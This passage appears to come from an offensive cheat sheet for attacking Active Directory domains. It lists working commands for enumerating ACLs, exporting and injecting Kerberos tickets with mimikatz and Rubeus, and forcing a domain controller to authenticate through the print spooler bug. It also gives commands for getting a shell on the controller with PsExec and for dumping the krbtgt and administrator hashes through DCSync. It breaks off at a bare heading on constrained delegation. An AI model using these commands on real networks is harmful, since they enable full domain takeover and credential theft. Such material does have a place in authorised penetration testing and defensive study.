 Get interesting ACL’s

```powershell
Invoke-ACLScanner -ResolveGUIDs
```

## Unconstrained delegation

Get unconstrained delegation computers

```powershell
Get-DomainComputer -Unconstrained

-Domain domain.com (optional to enum other domains in forest)
```

View and use forwardable tickets on unconstrained host

```plaintext
privilege::debug
sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt <filename>
C:\Tools\SysinternalsSuite\PsExec.exe \\dc01 cmd
whoami
```

Check printer spooler service active on remote host

```plaintext
dir \\dc01\pipe\spoolss
ls \\dc01\pipe\spoolss
```

Rubeus monitor for incoming tickets filtered by host (run on Unconstrained delegation host)

```plaintext
Rubeus.exe monitor /interval:5 /filteruser:DC01$
```

Force remote host to connect to host

```plaintext
SpoolSample.exe DC01 TARGET01
```

Use ticket with Rubeus

```plaintext
Rubeus.exe ptt /ticket:<base64>
```

Force dcsync using mimikatz to get user hashes using injected ticket

```plaintext
lsadump::dcsync /domain:x.domain.com /user:x\krbtgt
lsadump::dcsync /domain:x.domain.com /user:x\administrator
```

## Constrained delegation
